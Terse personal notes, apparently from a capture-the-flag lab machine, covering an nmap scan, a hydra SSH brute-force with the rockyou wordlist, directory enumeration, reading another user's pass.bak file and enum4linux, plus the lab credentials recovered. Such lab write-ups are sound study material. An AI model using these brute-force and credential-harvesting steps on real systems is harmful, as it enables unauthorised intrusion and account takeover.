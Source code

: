 #### Machine IP: 10.10.135.87
<br>
Enum:

`nmap -sV -sC -oA nmap/bpt 10.10.135.87`
<br>

Ports:
    <br>`hydra -l jan -P ~/Documents/wordlists/rockyou.txt ssh://10.10.135.87`<br>
    Ssh 22 -> Atacking[ brute forcing with hydra - User: jan:armando ]
    Http 80
    139
    445

Dirbuster enum:
    `http://10.10.135.87/development/`<br>

```
Loggin with ssh: ssh jan@ipmachine -p 22 : armando
Cd ..
Ls
Cd kay
vi pass.bak
```
<br>
For creds use:
`enum4linux -v 10.10.135.87`

User creds:
    jan:armando
    key:heresareallystrongpasswordthatfollowsthepasswordpolicy$$



